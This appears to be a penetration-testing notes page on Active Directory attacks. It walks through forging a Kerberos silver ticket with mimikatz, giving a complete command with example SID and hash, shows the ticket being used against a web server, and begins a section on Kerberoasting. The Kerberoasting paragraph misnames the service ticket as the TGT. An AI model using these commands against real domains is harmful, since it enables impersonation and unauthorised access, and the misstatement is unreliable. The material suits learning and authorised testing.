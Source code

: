 ### Forge (Silver) Tickets

All service accounts like a webserver have a Service Principal Name (SPN), which we abuse more in [#kerberoasting](lateral-movement.md#kerberoasting "mention"). But if through [#post-exploitation-mimikatz](local-privilege-escalation.md#post-exploitation-mimikatz "mention"), for example, we find the NTLM hash of an SPN, we can go one step further. With this secret known, we can forge a Kerberos ticket for **any user** to the service! This works because this hash normally verifies the integrity, but now it is known and can be used to break the trust.&#x20;

`mimikatz.exe` can best be used to craft such tickets and inject them into the current session. For this we need to supply a few pieces of information:

1. `/domain`: regular domain name.\
   (eg. `corp.com`)
2. `/sid`: **S**ecurity **Id**entifier of the _domain_, easily found using `whoami /user` and trimming the last number. [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) also has a `ConvertTo-SID '$DOMAIN\$USER'` function. \
   (eg. `S-1-5-21-5386719015-7638691639-2457330780`)
3. `/target`: Domain name of the service.\
   (eg. `web01.corp.com`)
4. `/service`: Type of the service, one of `cifs` (SMB), `rpcss`, `http`, `mssql`.\
   (eg. `http`)
5. `/rc4`: NTLM hash of the SPN you are targeting.\
   (eg. `4d28cf5252d39971419580a51484ca09`)
6. `/user`: Username of who to create the ticket for, which will decide your access.\
   (eg. `admin`)

{% code title="Mimikatz command" overflow="wrap" %}
```powershell
kerberos::golden /ptt /domain:corp.com /sid:S-1-5-21-5386719015-7638691639-2457330780 /target:web01.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:admin
```
{% endcode %}

After executing this command and closing Mimikatz, you should see the new forged ticket in `klist`. This can now be used on the webserver for example by invoking a request with the current credentials:

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> iwr -UseDefaultCredentials http://web01
</strong>
StatusCode        : 200
StatusDescription : OK
Content           : ...
</code></pre>

## Kerberoasting

{% content-ref url="windows-authentication/kerberos.md" %}
[kerberos.md](windows-authentication/kerberos.md)
{% endcontent-ref %}

Every **Service** on AD that requires Kerberos authentication registers a **Service Principal Name** (SPN). This allows clients to request Tickets for the service. The Ticket Granting Ticket (TGT) is encrypted using the **service account's password hash**, which is given to the client. Using this encrypted data, an attacker can brute force the password offline until it successfully decrypts, then knowing the correct password for the service account.
